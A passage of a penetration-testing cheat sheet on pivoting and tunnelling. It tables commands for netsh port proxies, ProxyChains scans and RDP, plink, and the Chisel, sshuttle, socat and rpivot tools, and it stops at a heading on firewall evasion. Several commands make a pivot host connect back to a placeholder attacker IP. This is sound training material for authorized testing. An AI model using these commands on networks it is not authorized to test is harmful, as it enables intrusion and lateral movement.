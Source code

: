 #### **Windows Native Port Forwarding**

| Command                                                                                               | Description                                                  |
| ----------------------------------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `netsh interface portproxy add v4tov4 listenport=<p_port> connectaddress=<t_ip> connectport=<t_port>` | Creates a persistent TCP port proxy on a Windows pivot host. |
| `netsh interface portproxy show v4tov4`                                                               | Displays the current port proxy configuration.               |

***

#### 3. Proxying Traffic Through Tunnels

Once a SOCKS proxy is established, use these tools to route your other applications through it.

#### **ProxyChains-NG (Linux)**

| Command                                                   | Description                                                                                         |
| --------------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| `tail -4 /etc/proxychains4.conf`                          | Check the configuration file to ensure your proxy is listed (e.g., `socks5 127.0.0.1 9050`).        |
| `proxychains nmap -v -Pn -sT 172.16.5.19`                 | Run an Nmap TCP scan through the proxy. `-Pn` is crucial as ICMP (ping) usually fails over proxies. |
| `proxychains msfconsole`                                  | Start Metasploit with all its network traffic routed through the proxy.                             |
| `proxychains xfreerdp /v:<TARGET_IP> /u:<user> /p:<pass>` | Connect to an internal Windows host via RDP through the proxy.                                      |

#### **Plink (Windows)**

| Command                                       | Description                                                                                      |
| --------------------------------------------- | ------------------------------------------------------------------------------------------------ |
| `plink.exe -D <LOCAL_PORT> <user>@<PIVOT_IP>` | (From Windows) Uses PuTTY's `plink.exe` to create an SSH-based SOCKS proxy, similar to `ssh -D`. |

***

#### 4. Advanced Tunnelling Tools

Versatile tools for creating robust tunnels and network relays.

| Tool       | Role   | Command                                                                                           | Description                                                                                                                            |
| ---------- | ------ | ------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------- |
| Chisel     | Server | `./chisel server -v -p 1234 --socks5`                                                             | A fast TCP/UDP tunnel over HTTP. Start the server on your attacker machine.                                                            |
|            | Client | `./chisel client -v <ATTACKER_IP>:1234 socks`                                                     | Run the client on the pivot host to connect back and establish the SOCKS proxy.                                                        |
| `sshuttle` | Client | `sshuttle -r <user>@<PIVOT_IP> <INTERNAL_SUBNET>` \<br> `sshuttle -r user@pivot 172.16.5.0/24 -v` | "The poor man's VPN." Forwards all traffic for a specified subnet through an SSH session, without requiring admin rights on the pivot. |
| `socat`    | Relay  | `socat TCP4-LISTEN:<l_port>,fork TCP4:<t_ip>:<t_port>`                                            | A powerful network relay. This example listens on a port and forwards all traffic to a target.                                         |
| `rpivot`   | Server | `python2.7 server.py --proxy-port 9050 --server-port 9999`                                        | A reverse SOCKS proxy. The server runs on the attacker machine.                                                                        |
|            | Client | `python2.7 client.py --server-ip <ATTACKER_IP> --server-port 9999`                                | The client runs on the pivot and connects out, creating a proxy for the attacker.                                                      |

***

#### 5. Covert Tunnelling (Firewall Evasion)
